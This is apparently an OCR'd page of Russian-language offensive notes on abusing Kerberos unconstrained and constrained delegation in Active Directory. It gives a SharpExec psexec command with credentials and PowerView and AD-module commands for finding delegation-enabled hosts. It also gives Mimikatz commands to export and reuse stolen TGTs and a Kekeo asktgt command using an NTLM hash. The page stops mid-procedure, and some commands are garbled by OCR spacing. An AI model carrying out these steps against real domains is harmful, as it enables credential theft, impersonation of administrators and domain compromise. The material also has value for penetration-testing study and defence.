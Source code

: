 ```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```
Затем учетная запись службы может запрашивать доступ к любой службе в домене, выдавая себя за входящего пользователя (потому что DC поместил TGT пользователя в TGS на шаге 4). В нашем примере учетная запись службы веб-сервера может запрашивать доступ к любой службе в домене как подключающийся к ней пользователь.
Это может быть использовано для повышения привилегий в случае, если мы можем скомпрометировать такую ​​машину, и администратор домена (или другой пользователь с высокими привилегиями) подключится к этой машине.

- Обнаружение компьютеров домена, для которых делегирование без ограничений включено с помощью PowerView:
Get-NetComputer -UnConstrained

- Использование модуля Active Directory:
Get-ADComputer -Filter {TrustedForDelegation -eq $ True}
Get-ADUser -Filter {TrustedForDelegation -eq $ True}

- Нам нужно скомпрометировать сервер, на котором разрешено неограниченное делегирование, и дождаться или обмануть пользователя с высоким уровнем привилегий, чтобы подключиться к коробке. Когда такой пользователь подключен, мы можем экспортировать все заявки, включая TGT этого пользователя, с помощью следующей команды:
Invoke-Mimikatz -Command '"sekurlsa :: tickets / export"'

Примечание: нам нужны права администратора на сервере, где неограниченное делегирование включено!

- билет можно использовать повторно:
Invoke-Mimikatz -Command '"kerberos :: ptt c: \ tickets \ admin.kirbi"'


Ограниченное делегирование:
- Представлено в Server 2008
- как следует из названия, ограниченное делегирование разрешает доступ только к указанным службам на конкретных компьютерах!
- типичный сценарий злоупотребления, когда ученик аутентифицируется с использованием не-Kerberos аутентификации, а протокол Kerberos использует Transition Transition для поддержки единого входа.
- Несколько расширений Kerberos вступают в игру для передачи протокола, но мы не будем их обсуждать.
- Учетная запись службы должна иметь атрибут TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION-T2A4D UserAccountControl.
- учетная запись службы может получить доступ ко всем службам, указанным в ее атрибуте msDS-AllowedToDelegateTo.
- другая интересная проблема заключается в том, что делегирование происходит не только для указанной службы, но и для любой службы, работающей под той же учетной записью. Нет проверки для указанного имени участника-службы.

- Перечислять пользователей и компьютеры с включенным ограниченным делегированием.

- Использование PowerView (dev):.
\ PowerView-Dev.ps1
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

- Использование модуля Active Directory:
Get-AdObject -Filter {msDS-AllowedToDelegateTo -ne "$ null"} -Properties msDS- AllowedToDelegateTo

- нам нужно получить открытый текстовый пароль или NTLM-хэш учетной записи службы. Затем его можно использовать с Kekeo:
https://github.com/gentilkiwi/kekeo/

. \ Asktgt.exe / user: termadmin /domain:lethallab.local / key: abf05c4e729e45781acd30ed80674b1c /ticket:termadmin.kirbi

- сейчас, используя s4u От Kekeo запросите TGS:
```